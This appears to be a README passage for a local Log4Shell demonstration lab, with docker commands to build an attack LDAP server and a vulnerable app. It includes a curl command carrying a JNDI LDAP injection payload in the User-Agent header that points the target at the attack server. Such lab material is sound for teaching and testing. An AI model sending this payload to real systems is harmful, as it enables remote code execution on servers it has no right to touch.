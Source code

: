 
```
docker compose down
docker compose build
docker compose up
```

```
curl -v -H "User-Agent: \${jndi:ldap://attack-server:10389/cn=badcode,dc=predic8,dc=de}" http://localhost:9090
```



##  OR
Build attack container:
```bash
cd attack-server
docker buildx build --platform linux/amd64 -t jndi-ldap-attack --load .
```
Build vulnerable container:
```bash
cd demo-vuln-app
docker buildx build --platform linux/amd64 -t demo-vuln-app --load .
```

Run attack container:
```bash
docker run -p 8080:8080 -p 10389:10389 jndi-ldap-attack
```

Run vulnerable container:
```bash
docker run -p 9090:9090 demo-vuln-app
```
